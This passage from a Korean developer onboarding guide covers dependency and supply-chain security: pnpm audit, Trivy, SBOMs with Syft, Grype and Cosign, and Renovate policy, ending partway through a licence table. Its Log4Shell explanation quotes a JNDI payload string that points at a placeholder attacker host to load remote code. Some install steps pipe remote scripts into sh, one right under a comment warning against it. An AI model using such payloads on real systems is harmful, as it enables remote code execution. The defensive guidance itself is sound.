


# 의존성 보안 — npm audit, SBOM, CSAP D-12 의존성 관리

> **문서 ID**: ONBOARD-SEC-CODE-03
> **버전**: 1.0.0 | **작성일**: 2026-04-12 | **작성자**: Implementer (Sonnet)
> **대상**: 모든 개발자, DevSecOps 엔지니어
> **전제 조건**: `07-security/coding/01-secure-patterns.md`, `07-security/coding/02-owasp-patterns.md`
> **소요 시간**: 약 120분
> **CSAP**: D-12 (시스템 개발 보안), D-05 (공급망 보안), D-06 (감사 로그)
> **Design Ref**: MTU-N37 (SBOM), MTU-N246 (DevSecOps)
> **Plan SC**: FR-N37.1~FR-N37.8, FR-N246.3

---

## 목차

1. [의존성 보안이 왜 중요한가](#1-의존성-보안이-왜-중요한가)
2. [npm audit 활용법](#2-npm-audit-활용법)
3. [Trivy 의존성 스캔](#3-trivy-의존성-스캔)
4. [SBOM — 소프트웨어 부품 목록](#4-sbom--소프트웨어-부품-목록)
5. [의존성 버전 관리 정책](#5-의존성-버전-관리-정책)
6. [CSAP D-12 의존성 요건 충족](#6-csap-d-12-의존성-요건-충족)
7. [실전 대응 시나리오](#7-실전-대응-시나리오)
8. [변경 이력](#8-변경-이력)

---

## 1. 의존성 보안이 왜 중요한가

### 1.1 공급망 공격의 현실

현대 소프트웨어는 혼자 만들어지지 않습니다. 하나의 서비스가 수백 개의 오픈소스 패키지에 의존하며, 그 패키지들도 또 다른 패키지에 의존합니다. 이 의존성 사슬 어딘가에 악성 코드가 삽입된다면 우리 서비스도 감염됩니다.

```
직접 공격:  공격자 → [방어벽: WAF, IDS, RBAC] → 서비스
                             ↑ 잘 막혀 있음

공급망 공격: 공격자 → npm 패키지 → pnpm install → 빌드 → 배포 → 서비스
                              ↑ 방어벽이 없는 우회로!
```

#### 실제 사건: SolarWinds 공격 (2020)

SolarWinds는 네트워크 모니터링 소프트웨어 Orion을 제공하는 회사입니다.

**무슨 일이 있었나**:
1. 공격자가 SolarWinds 내부 빌드 서버에 침투
2. 빌드 과정에서 악성 코드(SUNBURST)를 Orion 소프트웨어에 자동 삽입
3. SolarWinds가 이 악성 코드가 포함된 소프트웨어를 정상적으로 코드 서명 후 배포
4. 18,000개 이상의 고객사가 "합법적인" 업데이트를 설치
5. 미국 재무부, 국무부, 국방부, NASA 등 정부 기관이 9개월 이상 감시당함

**우리가 배운 교훈**:
- 신뢰할 수 있는 공급사도 공격받을 수 있다
- 코드 서명만으로는 부족하다
- 빌드 무결성과 의존성 추적이 필수다

#### 실제 사건: Log4Shell (2021)

Apache Log4j2에서 발견된 취약점(CVE-2021-44228)으로, 전 세계 수백만 개의 시스템에 영향을 미쳤습니다.

**무슨 일이 있었나**:
1. Log4j2는 Java 애플리케이션에서 거의 필수적으로 사용되는 로깅 라이브러리
2. 공격자가 로그 메시지에 `${jndi:ldap://attacker.com/exploit}` 형태의 문자열을 삽입
3. Log4j2가 이 문자열을 처리하면서 원격 코드를 다운로드하여 실행
4. 직접 Log4j2를 사용하지 않아도, **간접 의존성**으로 포함된 경우도 피해

**우리가 배운 교훈**:
- 간접 의존성(transitive dependency)도 취약점이 될 수 있다
- "우리가 직접 쓰지 않는다"는 말이 통하지 않는다
- SBOM이 있어야 영향 범위를 즉시 파악할 수 있다

#### 실제 사건: event-stream 패키지 공격 (2018)

npm 패키지 event-stream(주간 1억 다운로드)에 악성 코드가 삽입된 사건입니다.

**무슨 일이 있었나**:
1. 관리자 Dominic Tarr가 유지보수 의향이 없어 다른 사람에게 소유권 이전
2. 새 관리자가 `flatmap-stream`이라는 악성 의존성을 추가
3. 이 악성 코드는 Bitpay 지갑 앱에서 비트코인을 훔치도록 설계됨
4. 수백만 개의 프로젝트가 악성 패키지를 다운로드

**우리가 배운 교훈**:
- 패키지 소유권 변경도 위협 요소다
- npm 패키지의 출처와 신뢰성을 검증해야 한다
- 의존성 업데이트는 자동이 아닌 리뷰 후 적용해야 한다

### 1.2 공공기관 SaaS에서 의존성 보안 규제 (CSAP D-12)

CSAP(클라우드 서비스 보안 인증) D-12 통제항목 "시스템 개발 보안"은 의존성 보안을 명시적으로 요구합니다.

| CSAP 항목 | 요구 사항 | 우리의 구현 |
|---------|--------|---------|
| D-12-01 | 보안 코딩 표준 적용 | ESLint + Semgrep 규칙 |
| D-12-02 | 취약점 스캔 의무화 | pnpm audit + Grype |
| D-12-03 | 공급망 보안 관리 | SBOM 생성 + Cosign 서명 |
| D-12-04 | 오픈소스 라이선스 검사 | license-checker |
| D-12-05 | 의존성 목록 최신 유지 | Renovate Bot 자동화 |

**감리에서 요청하는 증거**:
```
감사관: "사용 중인 오픈소스 컴포넌트 목록과 취약점 점검 결과를 제출하십시오."

필요 문서:
  1. SBOM (Software Bill of Materials) — 전체 의존성 목록
  2. 취약점 스캔 결과 (Grype/pnpm audit 결과)
  3. 취약점 조치 이력 (수정 또는 예외 등록)
  4. 라이선스 검사 결과
```

### 1.3 우리 프로젝트의 의존성 현황 (pnpm workspace)

이 프로젝트는 pnpm workspace 기반 모노레포 구조입니다.

```
ai-saas/                        ← 루트
├── platform/
│   ├── services/               ← 17개 마이크로서비스
│   │   ├── auth-service/
│   │   ├── api-gateway/
│   │   └── ... (15개 더)
│   └── apps/
│       └── portal/             ← Next.js 프론트엔드
└── packages/                   ← 공유 패키지
    ├── dora-exporter/
    ├── feature-flag-sdk/
    ├── ml-pipeline/
    └── slo-escalation/
```

**의존성 규모 추정**:
```bash
# 전체 직접 의존성 수 확인
pnpm list --depth=0 | wc -l

# 전체 의존성(직접 + 간접) 수 확인
pnpm list | wc -l
```

### 1.4 의존성 공급망 위협 모델



---

## 2. npm audit 활용법

### 2.1 pnpm audit 실행 및 결과 해석

pnpm은 npm audit과 동일한 취약점 데이터베이스(npm advisory DB)를 사용합니다.

```bash
# 기본 실행
pnpm audit

# JSON 형식으로 출력 (CI에서 파싱용)
pnpm audit --json > audit-report.json

# 특정 심각도 이상만 보고 (High + Critical)
pnpm audit --audit-level=high

# 개발 의존성 포함
pnpm audit --include dev

# 특정 패키지만 검사
pnpm audit --filter auth-service
```

**실제 출력 해석**:

```
# 취약점이 있을 때 출력 예시

┌─────────────────────────────────────────────────────────────────┐
│                       npm audit report                           │
├─────────────────────────────────────────────────────────────────┤
│ critical: 0                                                      │
│ high: 2                                                          │
│ moderate: 5                                                      │
│ low: 12                                                          │
└─────────────────────────────────────────────────────────────────┘

# 상세 내용

high    Prototype Pollution in lodash
Package lodash
Patched in >=4.17.21
Dependency of express > body-parser > qs > ... > lodash
More info https://www.npmjs.com/advisories/XXXXX

high    Regular Expression Denial of Service (ReDoS) in path-to-regexp
Package path-to-regexp
Patched in >=0.1.10
...
```

**출력 해석 방법**:

| 필드 | 설명 | 대응 방법 |
|------|------|---------|
| Severity | 심각도 (critical/high/moderate/low) | 심각도별 SLA 참고 |
| Package | 취약한 패키지 이름 | 직접 의존성인지 간접인지 확인 |
| Patched in | 취약점이 수정된 버전 | 해당 버전 이상으로 업데이트 |
| Dependency of | 이 패키지를 포함하는 의존성 체인 | 어떤 패키지를 통해 들어왔는지 추적 |
| More info | advisory URL | 취약점 상세 정보 확인 |

### 2.2 심각도별 처리 기준 (SLA)

공공기관 SaaS의 CSAP D-12 요건을 반영한 처리 기준입니다.

| 심각도 | CVSS 점수 | 처리 기한 | CI 파이프라인 영향 | 비고 |
|--------|---------|---------|----------------|------|
| Critical | 9.0~10.0 | **즉시** (24시간 이내) | 파이프라인 차단 | 즉시 대응 필수 |
| High | 7.0~8.9 | **3일 이내** | 경고 후 차단 | CSAP 증거 필요 |
| Medium | 4.0~6.9 | **30일 이내** | 경고만 (차단 안 함) | 다음 스프린트 처리 |
| Low | 0.1~3.9 | **90일 이내** | 무시 (로그만) | 월간 배치 처리 |

**심각도 판단 기준 (CVSS v3.1)**:

Critical과 High를 결정하는 요소들:
- 원격 코드 실행(RCE) 가능 여부
- 인증 없이 악용 가능한지
- 네트워크를 통해 공격 가능한지
- 데이터 유출 가능성

### 2.3 취약점 수정 방법

```bash
# 자동 수정 시도 (안전한 minor/patch 업데이트만)
pnpm audit fix

# 주요 버전 업데이트 포함 (브레이킹 체인지 주의!)
pnpm audit fix --force
# 주의: --force는 breaking change를 포함할 수 있어 테스트 필수

# 특정 패키지 직접 업데이트
pnpm update lodash@^4.17.21

# 간접 의존성(transitive dependency) 강제 버전 지정
# pnpm-workspace 루트의 package.json에 추가
```

**간접 의존성 강제 교체 (pnpm overrides)**:

간접 의존성은 직접 `pnpm update`로 수정할 수 없습니다. `overrides`를 사용합니다.

```json
// package.json (루트)
{
  "pnpm": {
    "overrides": {
      "lodash": ">=4.17.21",
      "path-to-regexp": ">=0.1.10",
      "semver": ">=7.5.2"
    }
  }
}
```

적용 후:
```bash
# lock 파일 재생성
pnpm install

# 변경 확인
pnpm list lodash
# lodash 4.17.21 (overrides 적용됨)
```

### 2.4 수정 불가 취약점 처리

취약점을 즉시 수정할 수 없는 경우가 있습니다. 다음 절차를 따르십시오.

**예외 등록 절차**:

```markdown
# security/vulnerability-exceptions.md

## 예외 등록 목록

### VE-2026-001
- **패키지**: some-package@1.2.3
- **CVE**: CVE-2026-12345
- **심각도**: High
- **등록일**: 2026-04-12
- **예외 사유**: 해당 기능(WebSocket)을 사용하지 않아 실제 공격 경로 없음
- **대안 조치**: 방화벽 수준에서 해당 포트 차단 확인 완료
- **재검토일**: 2026-07-12
- **승인자**: 보안 담당자 홍길동
```

**`pnpm audit --audit-level`로 CI에서 예외 처리**:

```yaml
# .gitea/workflows/security.yml 내 의존성 감사 단계
- name: pnpm audit (HIGH+ 차단)
  run: |
    # High 이상만 차단 (Medium/Low는 보고만)
    pnpm audit --audit-level=high 2>&1 | tee audit-output.txt
    
    # 알려진 예외 CVE 필터링
    EXCEPTIONS="CVE-2026-12345 CVE-2025-99999"
    for CVE in $EXCEPTIONS; do
      sed -i "/$CVE/d" audit-output.txt
    done
    
    # 예외 적용 후 High+ 취약점 있으면 실패
    if grep -q "high\|critical" audit-output.txt; then
      echo "[FAIL] 미해결 High+ 취약점 발견"
      exit 1
    fi
```

### 2.5 CI/CD 통합

우리 프로젝트의 실제 워크플로우(`security.yml`)를 참고합니다.

```yaml
# Design Ref: DESIGN-MTU-DEP3
# CSAP: D-12 시스템 개발 보안, D-05 공급망 보안

dependency-audit:
  name: Dependency Audit
  runs-on: ubuntu-latest
  timeout-minutes: 10

  steps:
    - name: Checkout
      uses: actions/checkout@v4

    - name: Setup pnpm
      uses: pnpm/action-setup@v4
      with:
        version: "9.15.0"

    - name: Setup Node.js
      uses: actions/setup-node@v4
      with:
        node-version: "22"
        cache: "pnpm"

    - name: Install dependencies
      run: pnpm install --frozen-lockfile

    # High+ 취약점 발견 시 파이프라인 차단
    - name: pnpm audit (HIGH+)
      run: pnpm audit --audit-level=high
      # continue-on-error: true  ← 운영 환경에서는 제거! 차단 필수

    # JSON 리포트 생성 (CSAP 증거)
    - name: Generate audit report
      run: |
        pnpm audit --json > audit-report.json 2>/dev/null || true

    # 365일 보존 (CSAP D-06 감사 로그 요건)
    - name: Upload audit report
      if: always()
      uses: actions/upload-artifact@v4
      with:
        name: security-audit-report
        path: audit-report.json
        retention-days: 365
```

---

## 3. Trivy 의존성 스캔

### 3.1 Trivy란 무엇인가

Trivy는 Aqua Security에서 만든 오픈소스 보안 스캐너입니다. pnpm audit과 달리 다음을 추가로 검사합니다:

- 컨테이너 이미지 내 OS 패키지 취약점 (Alpine, Ubuntu, Debian 등)
- Dockerfile 보안 설정 오류
- k8s YAML / Helm 차트 보안 설정 오류
- IaC (Infrastructure as Code) 설정 취약점

**주의 사항**: 2026년 3월 19일 Trivy 공급망 공격 사건이 발생했습니다. 설치 스크립트 자체가 공격받을 수 있어, 우리 프로젝트는 SHA256 체크섬 검증을 필수로 합니다. 이미지 취약점 스캔은 Grype로 대체했습니다 (SBOM 워크플로우 참고).

### 3.2 Dockerfile 스캔 vs 파일시스템 스캔

| 구분 | Dockerfile 스캔 | 파일시스템 스캔 |
|------|--------------|--------------|
| 대상 | 완성된 컨테이너 이미지 | 소스 코드 디렉토리 |
| 검사 항목 | OS 패키지 + 앱 의존성 + Dockerfile 설정 | 앱 의존성 + IaC 설정 |
| 실행 시점 | 이미지 빌드 후 | PR 단계 (빌드 전) |
| 속도 | 상대적으로 느림 | 빠름 |
| CI 단계 | CD 파이프라인 | CI 파이프라인 |

```bash
# IaC 설정 스캔 (Helm, k8s YAML)
trivy config \
  --severity HIGH,CRITICAL \
  --exit-code 1 \
  --format table \
  helm/

# 파일시스템 스캔 (의존성)
trivy fs \
  --severity HIGH,CRITICAL \
  --exit-code 1 \
  platform/services/auth-service/

# 컨테이너 이미지 스캔 (빌드 후)
trivy image \
  --severity HIGH,CRITICAL \
  --exit-code 1 \
  localhost:8080/public-saas/auth-service:stg-abc1234
```

### 3.3 실제 워크플로우에서 Trivy 설정 분석

우리 프로젝트의 `devsecops.yml` 워크플로우를 살펴봅니다.

```yaml
# Design Ref: MTU-N246 S3.1
# CSAP D-12: 시스템 개발 보안
trivy-iac:
  name: "[1/5] Trivy IaC Scan"
  runs-on: self-hosted
  timeout-minutes: 10

  steps:
    - name: Install Trivy
      run: |
        if ! command -v trivy &>/dev/null; then
          # 체크섬 없이 설치 스크립트를 바로 실행하지 않는다
          # 공급망 공격 대응: 특정 버전 고정 + 체크섬 검증 권장
          curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | \
            sh -s -- -b /usr/local/bin v0.58.0
        fi

    # Helm 차트 설정 보안 검사
    - name: Trivy IaC Scan — Helm Charts
      run: |
        trivy config \
          --severity HIGH,CRITICAL \
          --exit-code 0 \       # 현재는 차단 안 함 (경고만)
          --format table \
          helm/

    # 인프라 설정 JSON 보고서 생성 (CSAP 증거)
    - name: Trivy IaC Scan — Infra Configs
      run: |
        trivy config \
          --severity HIGH,CRITICAL \
          --exit-code 0 \
          --format json \
          --output trivy-iac-report.json \
          infra/
```

**`--exit-code 0`과 `--exit-code 1`의 차이**:

- `--exit-code 0`: 취약점이 발견돼도 파이프라인 계속 진행 (경고만)
- `--exit-code 1`: 취약점 발견 시 파이프라인 중단 (차단)

운영 환경에서는 IaC 스캔도 `--exit-code 1`로 설정하여 차단해야 합니다. 현재는 기존 설정 안정화 단계이므로 경고만 합니다.

### 3.4 CRITICAL,HIGH만 차단하는 이유

모든 취약점(Medium, Low 포함)을 차단하면 어떻게 될까요?

```
Medium 취약점 포함 차단 시:
  - 매일 수십 건의 "거짓 양성(false positive)" 발생
  - 개발팀이 경보 피로(Alert Fatigue)를 겪게 됨
  - 결국 팀 전체가 보안 경보를 무시하기 시작
  
Critical/High만 차단 시:
  - 실제 위험한 취약점만 집중 대응
  - 팀이 보안 경보를 진지하게 받아들임
  - Medium/Low는 배치로 처리 (월간 스프린트)
```

이것이 "노이즈 감소(noise reduction)" 원칙입니다. 모든 것을 경고하면 아무것도 경고하지 않는 것과 같습니다.

### 3.5 Trivy 결과 억제(Suppress) 방법

`.trivyignore` 파일로 특정 취약점을 억제할 수 있습니다.

```bash
# 프로젝트 루트에 .trivyignore 파일 생성
cat > /data/ai-saas/.trivyignore << 'EOF'
# Trivy 취약점 억제 목록
# 형식: CVE-YYYY-NNNNN [이유] [재검토일]

# ============================================================
# OS 패키지 취약점 (Alpine Linux)
# ============================================================

# CVE-2023-XXXXX: curl 취약점
# 이유: 네트워크 격리 환경에서 해당 기능 사용 안 함
# 재검토: 2026-07-01
CVE-2023-XXXXX

# ============================================================
# 앱 의존성 취약점
# ============================================================

# CVE-2024-YYYYY: protobufjs 취약점
# 이유: gRPC 사용 안 함, 공격 경로 없음
# 재검토: 2026-07-01
# 승인: 보안팀 (2026-04-12)
CVE-2024-YYYYY
EOF
```

**`.trivyignore` 작성 기준**:

```
억제 가능한 경우:
  - 취약한 기능을 실제로 사용하지 않음 (공격 경로 없음)
  - 네트워크 격리로 외부 접근 불가
  - 수정 버전이 아직 없고, 임시 완화 조치 적용됨

억제하면 안 되는 경우:
  - RCE(원격 코드 실행) 가능 취약점
  - 인증 우회 취약점
  - 우리가 실제로 사용하는 기능의 취약점
```

---

## 4. SBOM — 소프트웨어 부품 목록

### 4.1 SBOM이란 무엇인가

SBOM(Software Bill of Materials, 소프트웨어 부품 목록)은 소프트웨어를 구성하는 모든 컴포넌트의 목록입니다.

자동차 회사가 부품 목록을 관리하듯, 우리 소프트웨어도 어떤 컴포넌트로 만들어졌는지 목록이 필요합니다.

**왜 필요한가**:

Log4Shell 사건 때 "우리 서비스에 Log4j2가 있나요?" 라는 질문에 즉시 답할 수 있어야 합니다. SBOM이 없으면 모든 서비스 코드를 하나씩 뒤져야 합니다 (수백 개 서비스라면 며칠이 걸립니다).

**공공기관 의무**:

2024년 이후 미국 행정명령(EO 14028), 유럽 사이버보안법(NIS2)에서 SBOM을 의무화하고 있습니다. 한국도 CSAP D-12-03에서 공급망 보안 관리를 요구하며, SBOM이 핵심 증거로 인정됩니다.

**SBOM 표준 형식**:

| 형식 | 제정 기관 | 특징 |
|------|---------|------|
| CycloneDX | OWASP | 보안 중심, JSON/XML, 취약점 매핑 강점 |
| SPDX | Linux Foundation | 라이선스 중심, ISO 표준 |

우리 프로젝트는 **CycloneDX 1.6 JSON** 형식을 사용합니다 (Grype와 호환성 최적).

### 4.2 Syft로 SBOM 생성 방법

Syft는 Anchore에서 만든 SBOM 생성 도구입니다.

```bash
# Syft 설치
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh | \
  sh -s -- -b /usr/local/bin v1.19.0

# 버전 확인
syft version

# 컨테이너 이미지에서 SBOM 생성
syft localhost:8080/public-saas/auth-service:stg-abc1234 \
  -o cyclonedx-json=sbom-auth-service.cdx.json \
  -o spdx-json=sbom-auth-service.spdx.json

# 소스 코드 디렉토리에서 SBOM 생성 (이미지 없을 때)
syft dir:platform/services/auth-service/ \
  -o cyclonedx-json=sbom-auth-service.cdx.json

# 결과 확인
cat sbom-auth-service.cdx.json | jq '.metadata.component.name'
# "auth-service"

cat sbom-auth-service.cdx.json | jq '.components | length'
# 247  (총 247개 컴포넌트)
```

**생성된 SBOM 파일 구조**:

```json
// sbom-auth-service.cdx.json (CycloneDX 1.6)
{
  "bomFormat": "CycloneDX",
  "specVersion": "1.6",
  "version": 1,
  "metadata": {
    "timestamp": "2026-04-12T09:00:00Z",
    "component": {
      "type": "container",
      "name": "auth-service",
      "version": "stg-abc1234"
    }
  },
  "components": [
    {
      "type": "library",
      "name": "express",
      "version": "4.18.2",
      "purl": "pkg:npm/express@4.18.2",  // Package URL (표준 식별자)
      "licenses": [{ "license": { "id": "MIT" } }]
    },
    {
      "type": "library",
      "name": "prisma",
      "version": "5.12.0",
      "purl": "pkg:npm/prisma@5.12.0",
      "licenses": [{ "license": { "id": "Apache-2.0" } }]
    }
    // ... 245개 더
  ]
}
```

### 4.3 Grype로 SBOM 취약점 분석

Grype는 SBOM을 입력받아 각 컴포넌트의 취약점을 검사합니다.

```bash
# Grype 설치
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | \
  sh -s -- -b /usr/local/bin v0.87.0

# SBOM 파일로 취약점 스캔
grype sbom:sbom-auth-service.cdx.json

# JSON 결과 출력
grype sbom:sbom-auth-service.cdx.json -o json > grype-results.json

# Critical/High만 표시
grype sbom:sbom-auth-service.cdx.json --fail-on high

# 결과 파싱
cat grype-results.json | jq '
  .matches[] |
  select(.vulnerability.severity == "Critical" or .vulnerability.severity == "High") |
  {
    package: .artifact.name,
    version: .artifact.version,
    cve: .vulnerability.id,
    severity: .vulnerability.severity,
    fixed_in: .vulnerability.fix.versions[0]
  }
'
```

**Grype 설정 파일** (`infra/security/.grype.yaml`):

```yaml
# infra/security/.grype.yaml
# Design Ref: MTU-N37 S3.2

output: "json"

# 차단 임계값
fail-on-severity: "high"

# 억제 목록 (알려진 예외)
ignore:
  - vulnerability: CVE-2023-XXXXX
    reason: "해당 기능 미사용, 공격 경로 없음"
    expires: "2026-07-01"

  - package:
      name: "protobufjs"
      version: "< 7.2.4"
    reason: "gRPC 미사용"

# 데이터베이스 업데이트 (최신 취약점 정보)
db:
  auto-update: true
  update-url: "https://toolbox-data.anchore.io/grype/databases/listing.json"

# 검색 범위
search:
  scope: "squashed"  # 레이어 병합 검색
```

### 4.4 SBOM을 CSAP 증거로 활용하는 방법

```
CSAP 감리 시 SBOM 활용 방법:

감사관 질문: "사용 중인 오픈소스 컴포넌트의 취약점 점검 결과를 제출하십시오."

우리의 답변:
  1. SBOM 파일 제출 (sbom-{서비스명}.cdx.json)
     → 모든 의존성 컴포넌트 목록 증명

  2. Grype 스캔 결과 제출 (grype-{서비스명}.json)
     → 취약점 점검 실시 및 결과 증명

  3. Cosign Attestation 검증
     → SBOM이 변조되지 않았음을 암호학적으로 증명

  4. Gitea Actions 아티팩트 링크
     → 자동화된 CI/CD 파이프라인에서 정기적으로 실행됨을 증명

감사 결과: CSAP D-12-03 충족 (공급망 보안 관리 자동화)
```

**Cosign SBOM Attestation (sbom-scan.yml에서 발췌)**:

```bash
# SBOM을 이미지에 첨부 (변조 불가 증명)
cosign attest \
  --key /opt/cosign/cosign.key \
  --type cyclonedx \
  --predicate sbom-auth-service.cdx.json \
  --allow-insecure-registry \
  -y \
  localhost:8080/public-saas/auth-service:stg-abc1234

# Attestation 검증 (감리 시 사용)
cosign verify-attestation \
  --key infra/cosign/cosign.pub \
  --type cyclonedx \
  --insecure-ignore-tlog \
  localhost:8080/public-saas/auth-service:stg-abc1234
```

### 4.5 SBOM 생성 및 활용 흐름도



---

## 5. 의존성 버전 관리 정책

### 5.1 Renovate Bot 설정 (자동 업데이트)

Renovate는 의존성 업데이트 PR을 자동으로 생성합니다. 수동으로 의존성을 확인하고 업데이트하는 것은 비효율적이고 누락되기 쉽습니다.

**기본 설정** (`renovate.json`):

```json
// renovate.json (프로젝트 루트)
{
  "$schema": "https://docs.renovatebot.com/renovate-schema.json",
  "extends": [
    "config:base",
    ":dependencyDashboard",
    ":semanticCommits"
  ],

  // 자동 머지 설정 (patch 업데이트만)
  "automerge": true,
  "automergeType": "pr",
  "automergeStrategy": "squash",

  // 패키지 규칙
  "packageRules": [
    {
      // 패치 업데이트: 자동 머지 (보안 수정)
      "matchUpdateTypes": ["patch"],
      "automerge": true
    },
    {
      // 마이너 업데이트: 리뷰 필요
      "matchUpdateTypes": ["minor"],
      "automerge": false,
      "assignees": ["security-team"]
    },
    {
      // 메이저 업데이트: 반드시 테스트 후 수동 머지
      "matchUpdateTypes": ["major"],
      "automerge": false,
      "labels": ["major-update", "needs-review"],
      "assignees": ["tech-lead"]
    },
    {
      // 보안 취약점: 즉시 처리 (심각도 무관)
      "matchDepTypes": ["dependencies"],
      "vulnerabilityAlerts": {
        "enabled": true,
        "automerge": false,
        "labels": ["security", "vulnerability"]
      }
    },
    {
      // Node.js LTS 버전만 허용
      "matchPackageNames": ["node"],
      "allowedVersions": "/^(18|20|22)\\./"
    }
  ],

  // 업데이트 스케줄 (주말 야간에 처리)
  "schedule": ["after 11pm on Saturday", "before 5am on Monday"],

  // PR 설명에 변경 로그 포함
  "prBodyTemplate": "{{{changelog}}}"
}
```

### 5.2 의존성 업데이트 PR 리뷰 기준

Renovate가 PR을 생성하면 다음 기준으로 리뷰합니다.

```
리뷰 체크리스트:

1. 변경 로그(CHANGELOG) 확인
   - 브레이킹 체인지가 있는가?
   - 보안 수정이 포함되었는가?
   - API 변경이 있는가?

2. 테스트 통과 확인
   - CI 파이프라인이 모두 통과했는가?
   - 특히 통합 테스트가 통과했는가?

3. 의존성 영향 범위 확인
   - 몇 개의 서비스가 이 패키지를 사용하는가?
   - 공유 패키지(@public-saas/*)의 경우 모든 서비스에 영향

4. 라이선스 변경 확인
   - 업데이트 후 라이선스가 변경되었는가?
   - GPL/AGPL로 변경된 경우 절대 머지 금지!
```

**자동 리뷰 규칙**:

| 업데이트 유형 | 자동 머지 | 리뷰어 | 기준 |
|------------|---------|------|------|
| 보안 패치 (patch) | 가능 | 없음 | CI 통과 시 |
| 기능 업데이트 (minor) | 불가 | 담당자 1명 | CI + 수동 확인 |
| 메이저 업데이트 | 불가 | tech-lead | 통합 테스트 필수 |
| Node.js 버전 | 불가 | tech-lead | 전체 서비스 테스트 |

### 5.3 LTS 버전만 사용 정책 (공공기관 안정성)

공공기관 SaaS는 안정성이 최우선입니다. 최신 버전보다 LTS(Long Term Support) 버전을 사용합니다.

**현재 LTS 정책**:

```
Node.js:
  현재 사용: v22.x (LTS)
  지원 종료: 2027-04-30
  다음 LTS: v24.x (2026-04 출시 예정)
  업그레이드 기준: 새 LTS 출시 후 3개월 이상 안정화 확인

pnpm:
  현재 사용: v9.15.0
  정책: minor 업데이트만 자동, major는 수동

TypeScript:
  현재 사용: v5.x
  정책: 메이저 업데이트 전 3개월 검토 기간

PostgreSQL:
  현재 사용: v16.x (LTS)
  정책: major 업데이트는 DBA 검토 + 마이그레이션 계획 필수
```

**비 LTS 버전 사용 금지 이유**:

```
비 LTS (예: Node.js v23, v21):
  - 보안 업데이트 기간: 6개월
  - 패치가 끊기면 취약점 노출 위험
  - CSAP D-12: 지원 종료된 소프트웨어 사용 금지

LTS (예: Node.js v22):
  - 보안 업데이트 기간: 30개월 이상
  - 장기 안정적인 지원 보장
  - 공공기관 검증 및 도입 사례 풍부
```

### 5.4 pnpm overrides로 취약 버전 강제 교체

특정 간접 의존성이 취약한 버전을 사용할 때 강제로 교체합니다.

```json
// package.json (루트)
{
  "name": "ai-saas",
  "pnpm": {
    "overrides": {
      // ① 특정 버전 범위 강제
      "lodash": ">=4.17.21",
      
      // ② 정확한 버전 고정
      "semver": "7.5.4",
      
      // ③ 특정 패키지가 요청하는 버전 교체
      // some-package가 요청하는 lodash를 특정 버전으로 교체
      "some-package>lodash": ">=4.17.21",
      
      // ④ 보안 취약점 긴급 패치
      // CVE-2023-XXXXX 대응
      "path-to-regexp": ">=0.1.10"
    }
  }
}
```

**overrides 적용 후 검증**:

```bash
# lock 파일 재생성 (override 반영)
pnpm install

# 특정 패키지 버전 확인
pnpm list lodash --depth=10

# 의도한 버전이 적용됐는지 확인
pnpm audit --json | jq '.advisories | keys | length'
# 0  (더 이상 취약점 없음)
```

---

## 6. CSAP D-12 의존성 요건 충족

### 6.1 허용된 라이선스 목록

공공기관 SaaS에서 사용 가능한 오픈소스 라이선스:

| 라이선스 | 사용 가능 여부 | 조건 |
|---------|------------|------|
| MIT | 허용 | 저작권 고지 포함 |
